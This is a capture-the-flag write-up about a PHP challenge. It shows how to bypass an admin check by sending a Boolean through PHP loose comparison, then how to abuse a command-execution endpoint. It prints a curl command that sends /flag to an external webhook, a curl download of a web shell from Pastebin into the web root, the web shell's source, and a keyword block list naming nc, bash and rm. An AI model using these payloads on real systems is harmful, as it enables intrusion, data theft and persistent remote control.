



This was quite an interesting challenge for me.



I needed to set up a debugger to understand why the program kept returning the following error:

```text
Failed to parse JSON data
```

The application uses this HTML form:

```html
<form method="POST" action="index.php">
    <label for="username">Username:</label>
    <input type="text" id="username" name="username" required>
    <br>
    <input type="submit" value="Submit">
    <div class="message"><?php echo $message; ?></div>
</form>
```

The program kept returning the error because the form in the user interface always sent POST requests with the `Content-Type` set to `application/x-www-form-urlencoded`.

```text
username=hi
```

However, the program used different logic to parse the submitted data:

```php
<?php
include("./config.php");
include("./config/db_config.php");

$message = "";

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $data = json_decode($_POST["username"]);

    if ($data === null) {
        exit("Failed to parse JSON data");
    }

    $username = $data->username;

    if ($username === "admin") {
        exit("no hack");
    }

    switch ($username) {
        case "admin":
            $user = "admin";
            $password = "***REDACTED***";
            $stmt = $conn->prepare(
                "SELECT * FROM users WHERE username = ? AND password = ?"
            );
            $stmt->bind_param("ss", $user, $password);
            $stmt->execute();
            $result = $stmt->get_result();

            if ($result->num_rows == 1) {
                $_SESSION["auth"] = "admin";
                header("Location: test.php");
            } else {
                $message = "Something wrong...";
            }
            break;

        default:
            $_SESSION["auth"] = "guest";
            header("Location: test.php");
    }
}
?>
```

After spending some time correcting the request body, I determined that it needed to have the following format:

```text
username={"username":"value"}
```

The goal of this challenge was to obtain an administrator session and then execute system commands.

```php
switch ($username) {
    case "admin":
```

The vulnerability that directly allowed me to obtain an administrator session was located around lines 20 and 21. It was not possible to submit the string value `"admin"` directly because the preceding `if` condition would block it.

Therefore, I needed to use a different data type that would still match this case. A Boolean value worked because, in a loose comparison between a Boolean and a string, a non-empty string is converted to `true`.

```text
username={"username":true}
```

By sending a request with the body shown above, I was able to obtain an administrator session.

```php
$pattern = '/\b(flag|nc|netcat|bin|bash|rm|sh)\b/i';

if ($_SESSION["auth"] === "admin") {
    $command = isset($_GET["cmd"]) ? $_GET["cmd"] : "ls";
    $sanitized_command = str_replace("\n", "", $command);

    if (preg_match($pattern, $sanitized_command)) {
        exit("No hack");
    }

    $resulttt = shell_exec(escapeshellcmd($sanitized_command));
}
```

The code above was the part of the application in which the OS command-injection vulnerability could be exploited after obtaining an administrator session.

The application used a regular expression to filter dangerous keywords from commands submitted by users. After the regular-expression check, the command was sanitized again using the `escapeshellcmd()` function.

My initial idea was to find a way to bypass these protections. I observed that the function still allowed spaces to be used.



After researching the issue, I found that system commands such as `curl` and `wget` could potentially be abused through argument injection:

* https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#argument-injection
* https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#curl

Because `curl` was already installed on the target system, I attempted to use the following payload to send the flag to an external endpoint:

```bash
curl -F password=@/flag https://052d0150-152b-434f-a2c2-8cd5c4994299.webhooksite.net
```

The problem was that I could send other files, but I could not send the flag because the word `flag` was blocked by the regular expression.

After further investigation, I came up with another idea: use `curl` to download a PHP web shell and execute it on the target system. I uploaded the web-shell file to Pastebin, downloaded it to the target, and saved it as `shell.php`.

```bash
curl -o /var/www/html/shell.php https://pastebin.com/raw/hkNr2UhZ
```

The contents of `shell.php` were as follows:

```php
<?php
if (isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
}
?>
```

After obtaining the web shell, the only remaining step was to execute the command required to retrieve the flag. Because `/flag` was an executable file and only the `root` user had permission to read and execute it, I used `/flag 2>&1` to redirect the error output and display the flag.


